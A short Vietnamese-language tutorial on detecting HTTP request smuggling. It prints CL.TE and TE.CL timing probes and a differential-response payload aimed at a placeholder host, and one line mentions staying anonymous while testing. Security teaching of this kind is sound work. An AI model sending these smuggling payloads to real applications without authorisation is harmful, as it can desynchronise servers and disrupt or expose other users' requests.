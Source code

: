 ## **Cách phát hiện lỗ hổng HTTP request smuggling**

### **`Finding CL.TE or TE.CL vulnerabilities using timing techniques`**

- Nếu một ứng dụng dễ bị biến thể CL.TE của việc request smuggling, thì việc gửi một yêu cầu như sau thường sẽ gây ra sự chậm trễ về thời gian:

```
- CL.TE
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X

-----------------------------------------------------------------
- TE.CL
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

- Thử nghiệm dựa trên thời gian cho các lỗ hổng TE.CL sẽ có khả năng làm gián đoạn những người dùng ứng dụng khác nếu ứng dụng dễ bị biến thể CL.TE của lỗ hổng bảo mật. Vì vậy, để ẩn danh và giảm thiểu sự gián đoạn, bạn nên sử dụng thử nghiệm CL.TE trước và chỉ tiếp tục thử nghiệm TE.CL nếu lần thử nghiệm đầu tiên không thành công.

### **`Confirming HTTP request smuggling vulnerabilities using differential responses`**

> `Confirming CL.TE vulnerabilities using differential responses`

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
